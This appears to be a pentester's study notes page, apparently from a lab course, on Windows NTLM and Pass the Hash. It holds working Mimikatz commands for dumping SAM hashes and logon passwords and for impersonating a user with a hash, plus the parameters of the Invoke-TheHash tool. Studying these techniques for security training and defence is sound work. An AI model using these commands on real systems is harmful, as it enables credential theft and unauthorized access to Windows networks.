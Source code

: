 #NTLM
## [Windows NTLM](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
Set of security protocols that authenticates users identities while protecting the integrity and confidentiality of their data. 
NTLM is a single sign-on (SSO) solution that uses a challenge-response protocol. 

Number of known flaws but is still commonly used to ensure backwards compatibility.
Kerberos has taken over as the default authentication methods in Windows 2000 and subsequent in AD domains. 

Passwords stored on the server and domain controllers are not salted. Allows an adversary with a password hash to authenticate a session without knowing the original password. 

#PtH 
## [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
You can use a password hash instead of a plain text password for authentication. 
- Dumping the local SAM database from a compromised host.
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
- Pulling the hashes from memory (lsass.exe).
#MimiKatz
### Mimikatz
Has a module named sekurlsa::pth
Required options:
`/user:<user>` - The name of the user to impersonate 
`/rc4 or /NTLM:<hash>` - Hash to impersonate 
`/domain:<domain>` - The domain the user belongs to or localhost
`/run` - program we want to run with the users context.

```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
#SAM
#### Dump SAM
```cmd
reg save HKLM\SAM sambkup.hiv
reg save HKLM\SYSTEM systembkup.hiv

mimikatz.exe lsadump::sam /sam:sambkup.hiv /system:systembkup.hiv
```
#### Dump Passwords 
```cmd 
mimikatz.exe privilege::debug "sekurlsa::logonPasswords full"
```
### [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)
Can use SMB or WMI command execution.
- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
